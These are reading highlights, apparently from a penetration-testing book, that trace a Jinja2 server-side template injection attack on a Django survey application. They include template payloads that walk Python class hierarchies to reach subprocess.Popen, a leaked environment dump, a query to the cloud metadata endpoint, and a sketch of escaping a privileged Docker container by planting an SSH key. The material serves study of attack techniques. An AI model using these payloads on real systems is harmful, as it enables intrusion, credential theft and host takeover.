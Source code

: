 	- ```Payload {{8*'2'}} # Python: 22222222, PHP: 16 {{8*2}} # Python: 16, PHP: 16 Figure 6-5: Typical Python output for an input of 8 * '2' From this``` ([Location 2325](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2325))
	- ```payload that works on both Flask and Django Jinja2 templates, and it’s a good one: request.environ. In both frameworks, this Python object holds information about the current request: HTTP method, headers, user data, and, most importantly, environment variables loaded by the app. # Payload email=davidshaw@pokemail.net&``` ([Location 2332](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2332))
	- ```templating engine with the more powerful Jinja2 templating framework. This is lucky for us, because while Jinja2 supports a subset of Python expressions and operations that give it the edge in terms of performance and productivity, this flexibility comes at a steep price: we can``` ([Location 2341](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2341))
	- ```template, so we can naturally retrieve it. The os module? Highly unlikely. But, and it is a most fortunate but, most modern programming languages provide us with some degree of introspection and reflection—reflection being the ability of a program, object, or class to examine itself, including listing its own properties and methods, changing its``` ([Location 2348](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2348))
	- ```email=davidshaw@pokemail.net&user={{request__class__ }}... <class 'django.core.handlers.wsgi.WSGIRequest'> That class is itself a child class of a higher Python object called django.http.request.HttpRequest. We did not even have to read the docs to find this out; it’s written in the object itself, inside the __base__``` ([Location 2355](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2355))
	- ```object. In and of itself, the object class is useless, but like all other classes, it contains references to its subclasses as well. So after climbing up the chain, it’s now time to go down using the __subclasses__ method: # Payload email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()}}...``` ([Location 2364](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2364))
	- ```the object class and loaded by the current Python interpreter. NOTE In Python 3, all top classes are children of the object class. In Python 2, classes must explicitly inherit the object class. I hope you caught the subprocess.Popen class 1! This``` ([Location 2371](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2371))
	- ```couple of seconds later, we receive an email spilling out the environment variables of the Python process running on the machine: PWD=/opt/django/surveysapp PYTHON_GET_PIP_SHA256=8d412752ae26b46a39a201ec618ef9ef7656c5b2d8529cdcbe60cd70dc94f40c KUBERNETES_SERVICE_PORT_HTTPS=443 HOME=/root--snip--``` ([Location 2380](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2380))
	- ```surveysapp, and the settings file is usually one directory below that (with the same name). In Listing 6-1, we try to access it. # Payload email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()``` ([Location 2386](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2386))
	- ```results to candidates. These credentials will probably have a very narrow scope of action, like sending emails. We can try to be creative and phish some admins using this newly acquired capability, but right now, these credentials will serve a more pressing goal: confirming``` ([Location 2397](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2397))
	- ```runccd&", shell=True, stdout=-1).communicate()[0]}}...<empty> Some sort of filter seems to block HTTP requests going to the outside world. Fair enough. We’ll try going in the opposite direction and query the metadata API 169.254.169.254.``` ([Location 2420](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2420))
	- ```S3 bucket to bypass the network ban, but if you recall, we already met an application that was not subject to these restrictions: the demo application from Chapter 5. We could have perfectly leveraged the SSRF vulnerability we found earlier to design a quasi-duplex communication channel using the following``` ([Location 2565](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2565))
	- ```user “root” in this namespace is mapped to some random unprivileged user ID on the host. A quick way to corroborate our hypothesis is to look more closely at the process bearing the PID number 1: examine its command line attributes, cgroups, and mounted folders. We can explore these different``` ([Location 2578](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2578))
	- ```belonging to our narrow and very limited namespace. One of the very first reflexes to have when landing in a container is to check whether it is running in privileged mode. Checking for Privileged Mode In privileged execution mode, Docker``` ([Location 2593](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2593))
	- ```mode, we can just mount the main partition, slip an SSH key in any home folder, and open a new admin shell on the host. Here’s a quick proof of concept of just that in the lab for illustration purposes: # Demo lab root@DemoContainer:/#``` ([Location 2599](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2599))